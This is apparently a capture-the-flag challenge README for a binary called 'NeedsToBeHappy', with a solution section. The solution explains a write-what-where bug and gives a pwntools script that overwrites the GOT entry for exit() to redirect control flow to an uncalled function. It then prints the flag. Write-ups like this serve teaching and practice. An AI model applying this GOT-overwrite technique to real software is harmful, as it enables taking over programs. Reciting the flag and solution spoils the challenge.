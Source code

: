 # NeedsToBeHappy

### 📄 Description

Can you make the man happy and get the flag?

### ⚙ How to run 
```bash
./NeedsToBeHappy
```

### ⛔ Rules
- You cannot patch this binary. 
- The challenge must be solved by providing appropriate inputs.
- Do not modify the temp file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import *  

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary 
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
p.interactive()
```

<h3> 🚩 Flag </h3>

```plain
SPRITZ{PaRiPpaPPaA}
```
</details>